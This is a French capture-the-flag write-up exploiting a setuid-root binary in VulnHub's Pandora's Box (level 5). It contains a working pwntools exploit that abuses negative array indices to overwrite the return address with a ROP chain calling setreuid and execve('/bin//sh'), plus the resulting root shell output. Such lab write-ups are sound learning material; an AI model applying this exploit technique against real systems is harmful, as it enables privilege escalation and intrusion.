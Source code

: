 # Solution du CTF Pandora's Box de VulnHub (level 5)

On touche finalement (presque) à la fin du [CTF Pandora's Box de VulnHub](https://vulnhub.com/entry/pandoras-box-1,111/). Ce level 5 a beau nous donner un accès root il est pourtant le plus simple des exploitations de binaires du CTF.

Le programme qui a donc le bit setuid root permet de stocker des valeurs numériques dans un tableau :

```bash
$ ./level5
#########################
# Simple Number Manager #
#########################
This tool allows you to store and view upto 10 numbers
in a array.
Type exit to close or help for a command list
> help
commands:
exit        : Close number manager
set         : Store a number
get         : View a number
> get
> id: 6
value: 0
> set
> id: 6
> value: 31337
Value stored
> get
> id: 6
value: 31337
> get
> id: 5000
The array only has 10 entry's, use id 0..9
> get
> id: -10
value: 0
> set
> id: -10
> value: 5
Value stored
> get
> id: -10
value: 5
```

## Pour l'exploitation, tapez -234

On voit rapidement que les valeurs négatives d'index sont acceptées aussi bien pour la méthode `get` que `set`.

On peut donc aller au délà du tableau dans la stack. Le code fait un simple test pour s'assurer que l'index est plus petit que 10 :

```nasm
0x0804867d      mov     dword [base], 0xa ; int base
0x08048685      mov     dword [endptr], 0 ; char **endptr
0x0804868d      mov     dword [esp], ebx ; const char *str
0x08048690      call    strtoul    ; sym.strtoul ; long strtoul(const char *str, char **endptr, int base)
0x08048695      cmp     eax, 9     ; 9
0x08048698      jle     0x8048748
; --- snip ---
0x08048748      and     eax, 0xff  ; 255
0x0804874d      mov     eax, dword [esp + eax*4 + 0x14]
0x08048751      mov     dword [endptr], str.value:__u ; 0x80ab8af ; const char *format
0x08048759      mov     dword [base], eax
0x0804875d      mov     eax, dword [stderr] ; obj._IO_stderr
                                   ; 0x80cac24
0x08048762      mov     dword [esp], eax ; FILE *stream
0x08048765      call    fprintf    ; sym.fprintf ; int fprintf(FILE *stream, const char *format, void *va_args)
```

J'ai écrit un code pour dialoguer avec le programme et demander un index de -1 jusqu'à -1000 jusqu'à ce que l'on croise l'adresse de retour :

```python
from pwn import *                                                                                                      
                                                                                                                       
p = process('./level5', stdin=process.PTY, stdout=process.PTY)                                                       

for i in range(-1, -1000, -1):
    p.readuntil(b"> ")
    p.sendline(b"get")
    p.readuntil(b"> id: ")
    p.sendline(str(i).encode())
    value = int(p.readline().split()[1])
    if value == 0x0804816e:
        print(f"Found return value at index {i}")
        break

p.readuntil(b"> ")
p.sendline(b"exit")
p.close()
```

Le script trouve ainsi notre adresse de retour à l'index `-234` du tableau.

Pour tester l'exploitation je vais simplement réécrire l'adresse de retour par une adresse (`0x080a7e22`) pointant sur une instruction `0xCC` (sigtrap) :

```bash
$ gdb -q ./level5
Reading symbols from ./level5...

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.opensuse.org/ 
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in ./level5)
(gdb) get
Undefined command: "get".  Try "help".
(gdb) r
Starting program: /tmp/ctf/level5 
#########################
# Simple Number Manager #
#########################
This tool allows you to store and view upto 10 numbers
in a array.
Type exit to close or help for a command list
> get
> id: -234
value: 134513006
> set
> id: -234
> value: 134905378
Value stored
> exit
Goodbye

Program received signal SIGTRAP, Trace/breakpoint trap.
0x080a7e23 in uw_init_context_1 ()
```

Ca fonctionne. Le binaire a le bit NX dont on va utiliser la technique du ROP. L'adresse de retour sera écrasée par la première adresse de la ROP-chain (générée via ROPgadget puis customisée). Les autres valeurs sont passées à la suite sur les adresses dans le sens croissant.

## Hammer time

Comme j'ai fait mon code avec `pwntools` et que je ne peux pas l'exécuter directement avec ses dépendances sur la VM du CTF je reprend la méthode des précédents levels pour que le programme vulnérable écoute sur un port :

```bash
socat TCP4-listen:6666,reuseaddr,fork EXEC:./level5
```

Voci mon code d'exploitation :

```python
import struct
from pwn import *                                                                                                      

values = [
    0x0805383d,  # pop ecx ; pop ebx ; ret
    0,
    0,
    0x080a8406,  # pop eax ; ret
    70,          # setreuid syscall
    0x08053f90,  # int 80; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e0,  # @ .data
    0x080a8406,  # pop eax ; ret
    struct.unpack("<I", b"/bin")[0],
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e4,  # @ .data + 4
    0x080a8406,  # pop eax ; ret
    struct.unpack("<I", b"//sh")[0],
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e8,  # @ .data + 8
    0x08097caf,  # xor eax, eax ; ret
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08048492,  # pop ebx ; ret
    0x080ca7e0,  # @ .data
    0x0805383d,  # pop ecx ; pop ebx ; ret
    0x080ca7e8,  # @ .data + 8
    0x080ca7e0,  # padding without overwrite ebx
    0x08053816,  # pop edx ; ret
    0x080ca7e8,  # @ .data + 8
    0x080a8406,  # pop eax ; ret
    11,
    0x08048d2d,  # int 0x80
]

# switch lines for local exploitation
# p = process('./level5', stdin=process.PTY, stdout=process.PTY)                                                       
p = remote("192.168.56.83", 6666)

saved_eip_offset = 0
for i in range(-1, -1000, -1):
    p.readuntil(b"> ")
    p.sendline(b"get")
    p.readuntil(b"> id: ")
    p.sendline(str(i).encode())
    value = int(p.readline().split()[1])
    if value == 0x0804816e:
        print(f"Found return value at index {i}")
        saved_eip_offset = i
        break

for i, value in enumerate(values):
    p.readuntil(b"> ")
    p.sendline(b"set")
    p.readuntil(b"> id: ")
    p.sendline(str(saved_eip_offset + i).encode())
    p.readuntil(b"> value: ")
    p.sendline(str(value).encode())

p.readuntil(b"> ")
p.sendline(b"exit")
p.interactive()
p.close()

```

Pwn3d !

```bash
$ python exploit_lvl5.py 
[+] Opening connection to 192.168.56.83 on port 6666: Done
Found return value at index -234
[*] Switching to interactive mode
Goodbye
$ id
uid=0(root) gid=1004(level4) groups=0(root),1004(level4)
$ cd /root
$ ls -al
total 32
drwx------  3 root root 4096 Jan  4  2015 .
drwxr-xr-x 22 root root 4096 Jan  3  2015 ..
-rw-------  1 root root  275 Jan  4  2015 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Jan  4  2015 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-rw-------  1 root root 1491 Jan  4  2015 .viminfo
-rw-r--r--  1 root root 1314 Jan  4  2015 fl4gz0r.tXt
```

Le flag est en fait un dernier exercice à voir plus tard ;-)

*Publié le 27 décembre 2022*
